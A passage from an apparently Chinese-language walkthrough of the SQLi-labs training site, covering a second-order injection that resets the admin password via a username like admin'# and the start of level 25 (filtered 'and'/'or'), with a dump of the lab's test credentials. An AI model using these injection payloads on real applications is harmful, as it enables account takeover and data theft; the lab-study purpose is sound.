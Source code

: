 ![4](/img/2018-08-17/4.png)
登陆后修改密码，当前密码不用填，因为已经注释掉了
![5](/img/2018-08-17/5.png)
这样就可以修改admin的密码了
```
mysql> select * from users;
+----+----------+------------+
| id | username | password   |
+----+----------+------------+
|  1 | Dumb     | Dumb       |
|  2 | Angelina | I-kill-you |
|  3 | Dummy    | p@ssword   |
|  4 | secure   | crappy     |
|  5 | stupid   | stupidity  |
|  6 | superman | genious    |
|  7 | batman   | mob!le     |
|  8 | admin    | 123        | 	//admin的默认密码是admin
|  9 | admin1   | admin1     |
| 10 | admin2   | admin2     |
| 11 | admin3   | admin3     |
| 12 | dhakkan  | dumbo      |
| 14 | admin4   | admin4     |
| 17 | admin'#  | 123        |
+----+----------+------------+
14 rows in set (0.00 sec)
```
##### 第二十五关
过滤`and`和`or`
首先测试`id=1'`报错说明存在单引号注入，测试`id=1' and '1'='1`返回正常但不是id为1的页面，从下方的提示也可以看到and被过滤掉了